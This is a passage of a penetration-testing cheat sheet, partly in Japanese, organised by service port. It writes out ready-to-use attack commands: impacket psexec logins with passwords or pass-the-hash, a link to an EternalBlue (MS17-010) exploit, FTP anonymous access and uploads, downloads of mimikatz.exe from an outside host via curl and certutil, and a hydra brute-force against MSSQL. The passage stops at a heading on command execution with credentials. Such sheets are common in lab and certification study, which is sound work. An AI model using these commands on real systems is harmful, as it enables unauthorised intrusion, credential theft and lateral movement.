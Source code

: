 ```
python3 ~/impacket/examples/psexec.py (<DOMAIN>/)<USER>:<PASSWORD>@<IP>

#PTH
python3 ~/impacket/examples/psexec.py -hashes <NTHASH>:<NTHASH> <USER>@<IP>
```

### EternalBlue(MS17-010)

```
#以下リポジトリのsend_and_execute.pyが使いやすい。
https://github.com/helviojunior/MS17-010
```

## PORT 21(FTP)

### anonymous login

```
ftp <IP>
User:anonymous
Password:anonymous
```

### Get File

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```

### Upload File

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
curl -O http://192.168.119.243/mimikatz.exe
certutil.exe -urlcache -split -f "http://192.168.119.243:8000/mimikatz.exe"
```

## MSSQL (Port 1433)

### Brute Force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

### 認証情報を使ったログイン、コマンド実行
